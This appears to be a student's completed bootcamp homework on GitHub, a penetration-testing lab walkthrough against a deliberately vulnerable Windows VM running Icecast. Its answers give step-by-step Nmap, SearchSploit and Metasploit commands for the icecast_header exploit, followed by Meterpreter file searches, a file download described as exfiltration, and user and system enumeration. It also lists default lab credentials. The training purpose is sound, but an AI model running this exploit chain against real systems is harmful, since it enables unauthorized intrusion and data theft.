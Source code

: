 # Penetration-Test-Engagement
In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 
- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders
- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable
Once you complete this assignment, submit your findings in the following document: 

- [Report.docx]( Report.docx)
 
### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:
    - Run the Nmap command that performs a service and version scan against the target.
      > command: nmap -sV 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture1.png)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   - Run the SearchSploit commands to show available Icecast exploits.
     > command: searchsploit icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture2.png)

3. Now that we know which exploits are available to us, let's start Metasploit: 
   - Run the command that starts Metasploit:
     > command: msfconsole

4. Search for the Icecast module and load it for use.
   - Run the command to search for the Icecast module:
     > command: search icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture3.png)

   - Run the command to use the Icecast module:
     > command: use exploit/windows/http/icecast_header
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture4.png)

5. Set the `RHOST` to the target machine. 
   - Run the command that sets the `RHOST`:
     > command: set RHOSTS 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture5.png)

6. Run the Icecast exploit.
   - Run the command that runs the Icecast exploit.
     > command: run
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture6.png)

   - Run the command that performs a search for the `secretfile.txt` on the target
     > command: search –f  \*secretfile\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture7.png)

 7. You should now have a Meterpreter session open.
    - Run the command to performs a search for the `recipe.txt` on the target:
      > command: search –f  \*recipe\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture8.png)

  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:
      > command:  download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture9.png)



8. You can also use Meterpreter's local exploit suggester to find possible exploits.
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
      > command:  run post/multi/recon/local_exploit_suggester
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture10.png)

 
#### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
  > command: run post/windows/gather/enum_logged_on_users
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture11.png)

B. Open a Meterpreter shell and gather system information for the target.
  > command: shell
  > command: ipconfig –all
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture12.png)

C. Run the command that displays the target's computer system information:
   > command: systeminfo
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture13.png)

---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

